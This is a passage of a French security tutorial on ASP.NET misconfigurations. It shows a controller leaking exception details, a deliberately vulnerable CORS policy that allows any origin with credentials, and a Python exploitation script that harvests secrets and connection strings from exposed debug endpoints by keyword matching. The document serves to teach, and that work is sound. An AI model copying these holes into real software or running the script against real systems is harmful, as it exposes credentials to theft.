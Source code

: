 ```csharp
        return BadRequest(new
        {
            error = "Query failed",
            message = ex.Message,
            query = request.Query
        });
    }
}
```

### Exemple 5 : CORS mal configuré

```csharp
// Dans Program.cs (référencé par le contrôleur)
builder.Services.AddCors(options =>
{
    options.AddPolicy("AllowAll", builder =>
    {
        builder
            .AllowAnyOrigin()      // VULNÉRABLE: Accepte toutes les origines
            .AllowAnyMethod()      // VULNÉRABLE: Accepte toutes les méthodes
            .AllowAnyHeader()      // VULNÉRABLE: Accepte tous les headers
            .AllowCredentials();   // TRÈS VULNÉRABLE: Avec AllowAnyOrigin
    });
});
```

## 💥 Scénarios d'exploitation

### Scénario 1 : Récupération de secrets via debug endpoints
```python
import requests

def extract_secrets(base_url):
    """Extrait les secrets depuis les endpoints de debug"""
    
    # Récupérer les variables d'environnement
    response = requests.get(f"{base_url}/api/config/debug/info")
    if response.status_code == 200:
        data = response.json()
        env_vars = data.get("environmentVariables", {})
        
        # Chercher des secrets communs
        secrets = {}
        secret_patterns = [
            "password", "secret", "key", "token", "api", "connection",
            "aws", "azure", "database", "jwt", "oauth"
        ]
        
        for key, value in env_vars.items():
            if any(pattern in key.lower() for pattern in secret_patterns):
                secrets[key] = value
                print(f"Secret trouvé: {key} = {value}")
    
    # Récupérer la configuration complète
    response = requests.get(f"{base_url}/api/config/settings/all")
    if response.status_code == 200:
        config = response.json()
        connection_strings = config.get("connectionStrings", {})
        
        for name, conn_str in connection_strings.items():
            print(f"Connection string: {name} = {conn_str}")
```